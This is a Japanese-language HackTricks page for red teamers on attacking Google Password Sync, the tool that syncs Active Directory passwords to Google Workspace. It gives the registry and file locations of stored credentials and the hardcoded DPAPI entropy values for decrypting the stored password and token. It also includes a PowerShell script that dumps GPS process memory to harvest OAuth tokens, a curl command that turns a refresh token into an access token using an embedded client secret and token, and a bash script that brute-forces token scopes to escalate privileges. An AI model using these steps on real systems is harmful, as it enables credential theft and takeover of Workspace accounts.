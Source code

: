 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## 基本情報

これは、Googleが提供するバイナリおよびサービスで、**ADとWorkspaceの間でユーザーのパスワードを同期させる**ためのものです。ユーザーがADでパスワードを変更するたびに、それがGoogleに設定されます。

`C:\Program Files\Google\Password Sync`にインストールされ、ここでバイナリ`PasswordSync.exe`を見つけて設定し、`password_sync_service.exe`（実行を続けるサービス）があります。

### GPS - 設定

このバイナリ（およびサービス）を設定するには、**Workspaceのスーパ管理者の権限を与える必要があります**：

* Googleで**OAuth**を介してログインし、その後**トークンをレジストリに（暗号化されて）保存します**
* GUIのあるドメインコントローラーでのみ利用可能
* **Workspaceユーザーを管理する権限を持つGCPの**サービスアカウントの資格情報（jsonファイル）を提供する
* これらの資格情報は期限切れにならないため、悪用される可能性があるため非常に悪いアイデア
* SAがWorkspaceにアクセスできるようにするのは非常に悪いアイデアで、SAがGCPで侵害されるとWorkspaceにピボットする可能性があります
* GoogleはGUIのないドメインコントロール用にこれを要求します
* これらの資格情報もレジストリに保存されます

ADに関しては、現在の**アプリケーションコンテキスト、匿名、または特定の資格情報**を使用するように指示することが可能です。資格情報オプションが選択された場合、**ユーザー名**は**ディスク**内のファイルに保存され、**パスワード**は**暗号化され**て**レジストリ**に保存されます。

### GPS - ディスクからのパスワードとトークンのダンプ

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)は、**GPS**を検出し、設定に関する情報を取得し、**パスワードとトークンを復号化する**ことができることに注意してください。
{% endhint %}

ファイル**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`**には、設定の一部として**`baseDN`**や使用されている**`username`**が見つかります。

レジストリ**`HKLM\Software\Google\Google Apps Password Sync`**には、ADユーザーのための**暗号化されたリフレッシュトークン**と**暗号化されたパスワード**が見つかります（存在する場合）。さらに、トークンの代わりに**SA資格情報**が使用されている場合、それらもそのレジストリアドレスに暗号化されて保存されます。このレジストリ内の**値**は**管理者**のみが**アクセス可能**です。

暗号化された**パスワード**（存在する場合）は、キー**`ADPassword`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。これを復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

暗号化されたトークン（存在する場合）は、キー**`AuthToken`**内にあり、**`CryptProtectData`** APIを使用して暗号化されています。これを復号化するには、パスワード同期を設定したのと同じユーザーである必要があり、**`CryptUnprotectData`**を使用する際にこの**エントロピー**を使用します：`byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
さらに、これは**`0123456789abcdefghijklmnopqrstv`**という辞書を使用してbase32hexでエンコードされています。

エントロピー値は、ツールを使用して見つかりました。このツールは、**`CryptUnprotectData`**および**`CryptProtectData`**への呼び出しを監視するように設定され、その後、`PasswordSync.exe`を起動して監視するために使用され、これにより設定されたパスワードと認証トークンが最初に復号化され、ツールは両方のケースで使用されたエントロピーの値を**表示します**：

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

これらのAPIへの呼び出しの入力または出力で**復号化された**値を見ることも可能であることに注意してください（Winpeasが動作を停止した場合に備えて）。

パスワード同期が**SA資格情報で設定されている**場合、それもレジストリ**`HKLM\Software\Google\Google Apps Password Sync`**内のキーに保存されます。

### GPS - メモリからのトークンのダンプ

GCPWと同様に、`PasswordSync.exe`および`password_sync_service.exe`プロセスのメモリをダンプすることが可能で、リフレッシュトークンとアクセストークン（すでに生成されている場合）を見つけることができます。\
ADに設定された資格情報も見つけることができると思います。

<details>

<summary>ダンプ <code>PasswordSync.exe</code> と <code>password_sync_service.exe</code> プロセスを検索してトークンを探す</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - リフレッシュトークンからアクセストークンを生成する

リフレッシュトークンを使用して、次のコマンドで指定されたクライアントIDとクライアントシークレットを使用してアクセストークンを生成することができます。
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - スコープ

{% hint style="info" %}
リフレッシュトークンを持っていても、アクセストークンのためにスコープをリクエストすることはできません。なぜなら、アクセストークンを生成しているアプリケーションでサポートされている**スコープのみをリクエストできる**からです。

また、リフレッシュトークンはすべてのアプリケーションで有効ではありません。
{% endhint %}

デフォルトでは、GPSはユーザーとしてすべての可能なOAuthスコープにアクセスできないため、次のスクリプトを使用して、`refresh_token`を使用して`access_token`を生成するために使用できるスコープを見つけることができます。

<details>

<summary>スコープをブルートフォースするためのBashスクリプト</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

そして、これが執筆時に得られた出力です：
```
https://www.googleapis.com/auth/admin.directory.user
```
どのスコープも指定しない場合と同じです。

{% hint style="danger" %}
このスコープでは、**既存のユーザーのパスワードを変更して権限を昇格させることができます**。
{% endhint %}

{% hint style="success" %}
AWSハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、練習する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してハッキングトリックを共有してください。**

</details>
{% endhint %}
